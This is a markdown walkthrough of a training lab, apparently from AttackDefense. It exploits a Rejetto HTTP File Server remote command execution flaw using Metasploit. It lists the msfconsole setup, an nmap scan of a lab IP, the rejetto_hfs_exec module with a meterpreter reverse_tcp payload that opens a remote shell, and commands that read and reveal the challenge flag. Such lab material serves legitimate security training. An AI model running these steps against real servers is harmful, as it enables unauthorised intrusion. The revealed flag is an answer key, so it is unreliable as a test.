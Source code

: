 # 🔬HFS - MSF Exploit

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Target IP: `10.2.19.226`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.19.226
setg RHOST 10.2.19.226
workspace -a HFS
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.19.226
```

![db_nmap -sS -sV -O 10.2.19.226](assets/image-20230416104826584.png)

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
info
# Description:
#   Rejetto HttpFileServer (HFS) is vulnerable to remote command 
#   execution attack due to a poor regex in the file ParserLib.pas. This 
#   module exploits the HFS scripting commands by using '%00' to bypass 
#   the filtering. This module has been tested successfully on HFS 2.3b 
#   over Windows XP SP3, Windows 7 SP1 and Windows 8.
run
```

```bash
# Type of payload can be changed base on the target O.S. architecture
set payload windows/x64/meterpreter/reverse_tcp

# Always check for the LHOST and LPORT values
run
```

```bash
shell
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`f74c8347798f4082daf4b4570dba094a`

![](assets/image-20230416110124037.png)

</details>

------

